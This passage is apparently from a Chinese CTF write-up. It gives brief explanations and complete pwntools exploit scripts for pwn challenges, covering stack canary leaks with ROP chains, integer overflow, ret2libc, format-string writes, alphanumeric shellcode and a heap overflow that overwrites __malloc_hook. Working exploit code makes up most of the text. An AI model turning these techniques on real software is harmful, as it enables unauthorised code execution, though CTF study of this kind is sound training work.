payload += p64(pop_rsi_rdx_ret) + p64(0) + p64(0)
payload += p64(pop_rdi_ret) + p64(bin_sh)
payload += p64(syscall)
p.sendlineafter("Can you make a syscall?\n", payload)

p.interactive()

```

## PWN3-栈溢出之ROP链构造

发现加了canary，但是给了两次栈溢出机会以及print，第一次read溢出覆盖canary末尾的00，通过print打印出canary，第二次溢出把canary填回原处即可。程序也给出了system和/bin/sh。

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')

# p = process("./apwn?.bin")
p = remote('10.12.153.73',10532)

bin_sh_addr = 0x404058
_system_addr = 0x40127E
pop_rdi_ret = 0x4011de

payload = b'a' * 40
p.sendlineafter("Rush B!!!\n", payload)

p.recvline()
canary = u64(p.recv(7).rjust(8,b'\x00'))
print(hex(canary))

payload = b'a' * 40 
payload += p64(canary)  
payload += b'b'*8
payload += p64(pop_rdi_ret) 
payload += p64(bin_sh_addr)
payload += p64(_system_addr) 
p.sendline(payload)

p.interactive()

```

## PWN4-整数溢出漏洞

这道题卡了好久，明明有后门函数却不知道怎么利用。最后发现在init()中修改了signal的handler。查阅了一下，SIGFPE=8对应的是除以零或整数溢出。由于0被过滤了，所以只能考虑整数溢出，恰好可以使用-2147483648和-1，除以的结果是2147483648，恰好溢出。


```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')

# p = process("./pwn.bin")
p = remote('10.12.153.73',10162)

payload = b'-2147483648'
p.sendlineafter("Please input the first key :", payload)

payload = b'-1'
p.sendlineafter("And the second key :", payload)

payload = b'a'*80 + b'b'*8 + p64(0x4007c8)
p.sendlineafter("Hero, please leave your name :", payload)

p.interactive()

```

## PWN5-栈溢出之ret2libc

利用puts函数泄露函数地址，题目给出了libc.so.6，不需要再分析libc版本。利用泄露的函数地址计算libc的基地址，进一步算出system和/bin/sh的地址，构造ROP链。

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')

# p = process("./pwn.bin")
p = remote('10.12.153.73',10166)
elf = ELF("./pwn.bin")
libc = ELF("./libc.so.6")

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = 0x4011A8
pop_rdi_ret = 0x40117E

payload = b'a'*72 + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
p.sendlineafter("Go Go Go!!!\n", payload)
puts_addr = u64(p.recv(6).ljust(8,b'\x00'))
print("puts_addr: " + hex(puts_addr))

base_addr = puts_addr - libc.symbols['puts']
system_addr = base_addr + libc.symbols['system']
bin_sh_addr = base_addr + next(libc.search(b'/bin/sh'))
print("system_addr: " + hex(system_addr))
print("bin_sh_addr: " + hex(bin_sh_addr))

payload = b'a'*72 + p64(pop_rdi_ret + 1) + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(system_addr) + b'b'*8
p.sendlineafter("Go Go Go!!!\n", payload)

p.interactive()

```

## PWN6-格式化字符串

卡了好久，主要是利用%p先泄露内存数据，利用%n, %hn, %hhn写数据，使程序返回到后门函数。

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')

# p = process("./pwn.elf")
p = remote('10.12.153.73',11042)

success = 0x8049317

p.sendlineafter("Your choice: \n", b'3')
p.sendlineafter("Input what you want to talk: \n", b'%p')
p.recvuntil("You said: \n0x")
stk = int(p.recv(8), 16) + 0x40
print(hex(stk))

p.sendlineafter("Your choice: \n", b'3')
payload = b'%23c%10$hhnA' + p32(stk)
p.sendlineafter("Input what you want to talk: \n", payload)

p.sendlineafter("Your choice: \n", b'3')
payload = b'%147c%10$hhn' + p32(stk + 1)
p.sendlineafter("Input what you want to talk: \n", payload)

p.sendlineafter("Your choice: \n", b'4')

p.interactive()

```

## PWN7-栈溢出之shellcode

很简单，只需要使用全字母数字的shellcode即可。

```python
from pwn import *
context.arch='amd64'
sc = shellcraft.sh()
print(asm(sc))
# Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t

```

## PWN8-堆溢出

也卡了很久~~，逼我学会了gdb~~。利用unsorted bin泄露main_arena+96的地址，求出main_arena地址，进一步求出malloc_hook地址，之后就能求出libc基地址，最后再修改__malloc_hook指针，使之指向one_gadget。

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')

# p = process("./pwn.bin")
p = remote('10.12.153.73',10261)
libc=ELF('./libc-2.27.so')

def add(index,size):
    p.sendlineafter('Your choice >> ',b'1')
    p.sendlineafter('index: ',str(index))
    p.sendlineafter('size: ',str(size))
 
def delete(index):
    p.sendlineafter('Your choice >> ',b'2')
    p.sendlineafter('index: ',str(index))
 
def show(index):
    p.sendlineafter('Your choice >> ',b'3')
    p.sendlineafter('index: ',str(index))

def edit(index,content):
    p.sendlineafter('Your choice >> ',b'4')
    p.sendlineafter('index: ',str(index))
    p.sendlineafter('content: ',content)
    
add(0, 0x410)
add(1, 0x20)
# add(2, 0x10)
# gdb.attach(p)
delete(0)
# gdb.attach(p)

show(0)
p.recvuntil("content: ")
main_arena_96 = u64(p.recvuntil(b'\n',drop=True).ljust(8,b'\x00'))
# main_arena = main_arena_96 - 0x58
main_arena = main_arena_96 - 96
print(hex(main_arena))

malloc_hook = main_arena - 0x10
libc_base = malloc_hook - libc.sym['__malloc_hook']
print(hex(libc_base))

one_gadget = 0x10a2fc + libc_base
delete(1)
# gdb.attach(p)
edit(1,p64(malloc_hook))
add(3,0x20)
add(4,0x20)
edit(4,p64(one_gadget))
#gdb.attach(p)

p.sendlineafter(b"choice >> ", b"1")
p.sendlineafter(b'index: ',b'10')
p.sendlineafter(b'size: ',b'10')

p.interactive()
```

